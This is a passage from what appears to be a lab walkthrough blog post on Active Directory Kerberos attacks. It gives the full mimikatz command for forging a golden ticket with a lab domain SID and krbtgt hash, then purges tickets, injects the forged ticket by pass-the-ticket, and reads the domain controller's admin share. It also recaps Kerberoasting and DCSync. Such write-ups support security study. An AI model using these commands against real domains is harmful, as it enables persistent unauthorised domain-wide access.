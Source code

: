 ## creating the golden ticket
Creating the golden ticket is now a really simple task. We will simply call `Invoke-Mimikatz` again to generate the ticket. It will be saved to disk when it is generated. Thereafter, we will purge all the tickets we have for the session, and inject the golden ticket and test our access!

For details about the command and arguments required, I referred to the [mimikatz wiki](https://github.com/gentilkiwi/mimikatz/wiki/module-~-kerberos#golden--silver) and replicated that. Our command should look something like the below, saving our golden ticket to `golden.tck` with access to a few builtin Windows Groups:

``` html
kerberos::golden /user:darthvader /domain:foo.local /sid:S-1-5-21-2222611480-1876485831-1594900117 /krbtgt:95a11f7d93fa3a5a61073662e6bd8468 /ticket:golden.tck /groups:501,502,513,512,520,518,519
```

Running this mimikatz command with `Invoke-Mimikatz` gets us our Golden Ticket:

{{< figure src="/images/kerberos_golden_ticket_created.png" >}}

## injecting the golden ticket
The final test is to *use* this ticket. For that, we will purge all Kerberos tickets in memory and inject the new golden ticket. Thereafter we will test if we can read the administrative `c$` share of the Domain Controller!

Lets purge the currently cached Kerberos tickets first:

``` html
PS C:\users\bobs\downloads\golden> Invoke-Mimikatz -Command '"kerberos::purge"'

[... snip ...]

mimikatz(powershell) # kerberos::purge
Ticket(s) purge for current session is OK
```

Next, we inject the golden ticket we created using the mimikatz `kerberos::ptt` command to _'Pass The Ticket'_:

{{< figure src="/images/kerberos_golden_ticket_ptt.png" >}}

After the ticket is injected into memory, we can verify its existence with the mimikaz `kerberos::list` command, or just using `klist`. Once it is injected, we `dir` the Domain Controllers `c$` share... an *smile*. The password for `scvSQLServ` can now change, it will no longer bother us!

{{< figure src="/images/kerberos_golden_ticket_admin.png" >}}

## conclusion
In this post we saw how it is possible to 'crack' badly passworded and configured service accounts by querying for accounts by Service Principal Names. Those SPN's were then used to request Service Tickets from the Domain Controller, extracted from memory and cracked offline. All of that as a normal domain user.

Then, we explored how it is possible to extract Domain Account hashes using the mimikatz _DCSync_ feature and generate a Kerberos Golden Ticket with high access levels in the domain.

I think there is still a loooong road ahead for the Microsoft Kerberos Implementations... Until they 'fix' this stuff, things should remain interesting for quite some time to come.
